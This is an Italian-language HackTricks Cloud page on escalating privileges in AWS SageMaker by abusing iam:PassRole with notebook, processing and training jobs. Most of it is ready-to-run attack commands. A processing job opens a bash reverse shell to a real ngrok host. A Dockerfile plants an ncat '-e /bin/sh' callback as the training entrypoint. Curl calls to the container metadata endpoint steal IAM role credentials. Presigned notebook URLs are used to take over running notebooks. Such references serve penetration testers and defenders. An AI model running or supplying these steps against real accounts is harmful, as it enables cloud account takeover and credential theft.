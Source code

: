 # AWS - Escalazione dei privilegi di Sagemaker

## AWS - Escalazione dei privilegi di Sagemaker

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Inizia creando un notebook con il ruolo IAM per accedere ad esso:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
La risposta dovrebbe contenere un campo `NotebookInstanceArn`, che conterrà l'ARN della nuova istanza del notebook. Possiamo quindi utilizzare l'API `create-presigned-notebook-instance-url` per generare un URL che possiamo utilizzare per accedere all'istanza del notebook una volta pronta:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Vai all'URL con il browser e fai clic su \`Apri JupyterLab\` nell'angolo in alto a destra, quindi scorri fino alla scheda "Launcher" e sotto la sezione "Altro", fai clic sul pulsante "Terminale".

Ora è possibile accedere alle credenziali dei metadati del ruolo IAM.

**Impatto Potenziale:** Escalation dei privilegi al ruolo di servizio sagemaker specificato.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Se ci sono **notebook Jupyter già in esecuzione** e puoi elencarli con `sagemaker:ListNotebookInstances` (o scoprirli in qualsiasi altro modo), puoi **generare un URL per accedervi e rubare le credenziali come indicato nella tecnica precedente**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker allegato.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un attaccante con tali permessi può fare in modo che **sagemaker esegua un processingjob** con un ruolo sagemaker ad esso allegato. L'attaccante può indicare la definizione del contenitore che verrà eseguito in un'istanza di account ECS gestita da **AWS**, e **rubare le credenziali del ruolo IAM allegato**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker specificato.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un attaccante con tali permessi sarà in grado di creare un lavoro di addestramento, **eseguendo un contenitore arbitrario** su di esso con un **ruolo allegato** ad esso. Pertanto, l'attaccante sarà in grado di rubare le credenziali del ruolo.

{% hint style="warning" %}
Questo scenario è più difficile da sfruttare rispetto al precedente perché è necessario generare un'immagine Docker che invierà il rev shell o le credenziali direttamente all'attaccante (non è possibile indicare un comando di avvio nella configurazione del lavoro di addestramento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% fine %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker specificato.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un attaccante con tali permessi sarà (potenzialmente) in grado di creare un **lavoro di addestramento degli iperparametri**, **eseguire un contenitore arbitrario** su di esso con un **ruolo allegato** ad esso.\
_Non ho sfruttato a causa della mancanza di tempo, ma sembra simile agli exploit precedenti, sentiti libero di inviare una PR con i dettagli dello sfruttamento._

## Riferimenti

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusivi [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di github.

</details>
